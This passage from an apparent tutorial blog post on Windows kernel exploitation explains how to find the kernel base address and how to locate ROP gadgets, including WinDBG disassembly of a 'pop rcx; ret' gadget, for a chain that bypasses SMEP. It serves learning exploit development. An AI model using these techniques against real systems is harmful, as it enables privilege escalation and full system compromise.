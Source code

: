This code imports `NtQuerySystemInformation` from `nt.dll` and allows us to use it with the `System Module Information` parameter which returns to us a nice struct of a `ModulesCount` (how many kernel modules are loaded) and an array of the `Modules` themselves which have a lot of struct members included a `Name`. In all my research I couldn't find an example where the kernel image wasn't index value `0` so that's what I've implemented here. 

You could use a lot of the cool `string` functions in C++ to easily get the base address of any kernel mode driver as long as you have the name of the `.sys` file. You could cast the `Modules.Name` member to a string and do a substring match routine to locate your desired driver as you iterate through the array and return the base address. So now that we have the base address figured out, we can move on to hunting the gadgets.

## Hunting Gadgets
The value of these gadgets is that they reside in kernel space so SMEP can't interfere here. We can place them directly on the stack and overwrite `rip` so that we are always executing the first gadget and then returning to the stack where our ROP chain resides without ever going into user space. (If you have a preferred method for gadget hunting in the kernel let me know, I tried to script some things up in WinDBG but didn't get very far before I gave up after it was clear it was super inefficient.) Original work on the gadget locations as far as I know is located here: http://blog.ptsecurity.com/2012/09/bypassing-intel-smep-on-windows-8-x64.html

Again, just following along with Abatchy's blog, we can find **Gadget 1** (actually the 2nd in our code) by locating a gadget that allows us to place a value into `cr4` easily and then takes a `ret` soon after. Luckily for us, this gadget exists inside of `nt!HvlEndSystemInterrupt`. 

We can find it in WinDBG with the following:
```
kd> uf HvlEndSystemInterrupt
nt!HvlEndSystemInterrupt:
fffff800`10dc1560 4851            push    rcx
fffff800`10dc1562 50              push    rax
fffff800`10dc1563 52              push    rdx
fffff800`10dc1564 65488b142588610000 mov   rdx,qword ptr gs:[6188h]
fffff800`10dc156d b970000040      mov     ecx,40000070h
fffff800`10dc1572 0fba3200        btr     dword ptr [rdx],0
fffff800`10dc1576 7206            jb      nt!HvlEndSystemInterrupt+0x1e (fffff800`10dc157e)

nt!HvlEndSystemInterrupt+0x18:
fffff800`10dc1578 33c0            xor     eax,eax
fffff800`10dc157a 8bd0            mov     edx,eax
fffff800`10dc157c 0f30            wrmsr

nt!HvlEndSystemInterrupt+0x1e:
fffff800`10dc157e 5a              pop     rdx
fffff800`10dc157f 58              pop     rax
fffff800`10dc1580 59              pop     rcx // Gadget at offset from nt: +0x146580
fffff800`10dc1581 c3              ret
```

As Abatchy did, I've added a comment so you can see the gadget we're after. We want this:

`pop rcx`
